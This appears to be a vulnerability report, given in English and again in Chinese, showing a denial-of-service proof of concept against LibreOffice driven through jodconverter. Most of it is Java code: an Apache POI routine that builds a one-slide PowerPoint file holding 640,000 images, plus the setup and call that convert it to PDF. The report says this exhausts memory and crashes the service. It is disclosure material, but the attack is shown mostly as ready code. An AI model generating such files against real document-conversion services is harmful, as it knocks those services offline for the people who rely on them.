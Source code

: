 1. Generate malicious ppt files, using Java's POI plugin to generate them
Produce a PowerPoint file with only one slide through the POI plugin, containing a total of 640000 images of 800 * 800

The code is as follows：
```
public class PowerPointUtil {
    private static final int NUM =800;
    public static void main(String[] args) {
        String path="E:\\office\\test.pptx";
        try {
            createPPT(path);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    public static void createPPT(String path) throws IOException {
        XMLSlideShow ppt = new XMLSlideShow();
        XSLFSlide slide = ppt.createSlide();
        byte[] bt = FileUtils.readFileToByteArray(new File("E:\\office\\test.png"));

        for (int i = 0; i < NUM; i++) {
            for (int j = 0; j < NUM; j++) {
                XSLFPictureData pictureData = ppt.addPicture(bt, PictureData.PictureType.PNG);
                XSLFPictureShape pic = slide.createPicture(pictureData);
                pic.setAnchor(new Rectangle(i, j, 50, 50));
            }
        }
        ppt.write(new FileOutputStream(path));
    }
}
```

2、Operate libreoffice through the org. jdconverter dependency package, and initialize the configuration as follows

The code is as follows：
```
public class OfficeManagerInstance {
    private static OfficeManager INSTANCE = null;
    public static synchronized void start() {
        officeManagerStart();
    }
    public static synchronized void stop() {
        try {
            INSTANCE.stop();
        } catch (OfficeException e) {
            e.printStackTrace();
        }
    }
    public static void init() {

            LocalOfficeManager.Builder builder = LocalOfficeManager.builder().install();
            builder.officeHome("E:\\libreOffice\\");
            builder.portNumbers(8098);
            builder.taskExecutionTimeout(5 * 1000 * 60); // minute
            builder.taskQueueTimeout(10 * 1000 * 60 * 60); // hour

            INSTANCE = builder.build();
            officeManagerStart();

    }
    private static void officeManagerStart() {
        if (INSTANCE.isRunning()) {
            return;
        }
        try {
            INSTANCE.start();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
3、Finally, call the OfficeManager to execute the operation of converting ppt to pdf

The code is as follows：
```
public class LibreOfficeUtil {
    public static void main(String[] args) {
        String pptPath="E:\\office\\test.pptx";
        String pdfPath="E:\\office\\test.pdf";

        OfficeManagerInstance.init();
        OfficeManagerInstance.start();

        try {
            JodConverter.convert(new File(pptPath)).to(new File(pdfPath)).execute();
        } catch (OfficeException e) {
            e.printStackTrace();
        }finally {
            OfficeManagerInstance.stop();
        }
    }
}
```
4、Upon checking the memory usage, it was found that libreoffice was consuming a large amount of memory on the machine, which led to program crashes and DOS issues

![RS0_6I){_MC}D)``}36A0RC](https://github.com/bzdxtdlsd/test1/assets/58172556/d5210e71-a12c-4d98-a6e8-9d9322f9949e)


1、生成恶意的 ppt 文件，这里采用 java 的 poi 插件去生成
通过 poi 插件，生产一个只有一张幻灯片的 ppt 文件，其中含有 800*800 共 64 万张图片 

代码如下：

```
public class PowerPointUtil {
    private static final int NUM =800;
    public static void main(String[] args) {
        String path="E:\\office\\test.pptx";
        try {
            createPPT(path);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    public static void createPPT(String path) throws IOException {
        XMLSlideShow ppt = new XMLSlideShow();
        XSLFSlide slide = ppt.createSlide();
        byte[] bt = FileUtils.readFileToByteArray(new File("E:\\office\\test.png"));

        for (int i = 0; i < NUM; i++) {
            for (int j = 0; j < NUM; j++) {
                XSLFPictureData pictureData = ppt.addPicture(bt, PictureData.PictureType.PNG);
                XSLFPictureShape pic = slide.createPicture(pictureData);
                pic.setAnchor(new Rectangle(i, j, 50, 50));
            }
        }
        ppt.write(new FileOutputStream(path));
    }
}
```

2、通过 org.jodconverter 依赖包操作 libreoffice，初始化配置如下

代码片段：

```
public class OfficeManagerInstance {
    private static OfficeManager INSTANCE = null;
    public static synchronized void start() {
        officeManagerStart();
    }
    public static synchronized void stop() {
        try {
            INSTANCE.stop();
        } catch (OfficeException e) {
            e.printStackTrace();
        }
    }
    public static void init() {

            LocalOfficeManager.Builder builder = LocalOfficeManager.builder().install();
            builder.officeHome("E:\\libreOffice\\");
            builder.portNumbers(8098);
            builder.taskExecutionTimeout(5 * 1000 * 60); // minute
            builder.taskQueueTimeout(10 * 1000 * 60 * 60); // hour

            INSTANCE = builder.build();
            officeManagerStart();

    }
    private static void officeManagerStart() {
        if (INSTANCE.isRunning()) {
            return;
        }
        try {
            INSTANCE.start();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

3、最后调用 OfficeManager 去执行 ppt 转 pdf 的操作

代码如下：

```
public class LibreOfficeUtil {
    public static void main(String[] args) {
        String pptPath="E:\\office\\test.pptx";
        String pdfPath="E:\\office\\test.pdf";

        OfficeManagerInstance.init();
        OfficeManagerInstance.start();

        try {
            JodConverter.convert(new File(pptPath)).to(new File(pdfPath)).execute();
        } catch (OfficeException e) {
            e.printStackTrace();
        }finally {
            OfficeManagerInstance.stop();
        }
    }
}
```

4、查看内存占用情况，发现 libreoffice 占用机器大量内存，之后程序崩溃，产生 DOS 问题

![RS0_6I){_MC}D)``}36A0RC](https://github.com/bzdxtdlsd/test1/assets/58172556/8a911d64-e18d-4d4b-8b36-8537307b93e7)

